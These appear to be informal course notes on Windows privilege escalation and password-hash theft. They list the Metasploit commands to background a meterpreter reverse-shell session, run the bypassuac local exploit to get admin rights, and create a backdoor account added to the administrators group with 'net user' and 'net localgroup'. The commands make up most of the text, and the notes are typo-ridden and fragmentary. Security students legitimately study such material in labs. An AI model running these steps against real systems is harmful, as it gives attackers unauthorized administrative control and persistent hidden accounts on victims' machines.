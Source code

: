 # Password Cracking
### 3/30/2022

 * Options: John the Reaper or Crack the Password
 * Mst always have a valid reverse shell connection
 * Inorder to get the password we need the hash

* get to the point of "exploit" with the reverseshell session with meterpreter
* hashes associated with the user are LM Hash (this is old and weak) or NtLM hash (this is newer and stronger)

`
background
sessions
search bypassuac
`

Use the `use` command to apply the first given location

`
use exploit/windows/local/bypassuac
set session 1
show options
exploit
`

Now with this session, we have admin privilages
* anything with admin privilages is able to save in a system protected folder ('System32')

`
net user
shell
`

Want to be in the System 32 folder because it means you are an admin

`
net user /add Kristiana passWoRd
net localgroup administrator Kristiana /add
`
// adds administrators privilages to the account create

  
 
 
 
